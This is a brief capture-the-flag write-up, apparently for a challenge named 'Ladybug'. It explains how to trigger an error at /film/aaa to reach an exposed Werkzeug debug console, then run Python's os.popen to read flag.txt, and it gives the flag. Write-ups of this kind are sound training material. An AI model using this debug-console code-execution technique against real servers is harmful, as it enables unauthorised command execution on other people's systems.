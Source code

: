 # Ladybug

Enter /film/aaa to trigger error and get to werkzeug prompt
```python
import os
os.popen("cat flag.txt").read()
```
#### Flag:flag{weurkzerg_the_worst_kind_of_debug}
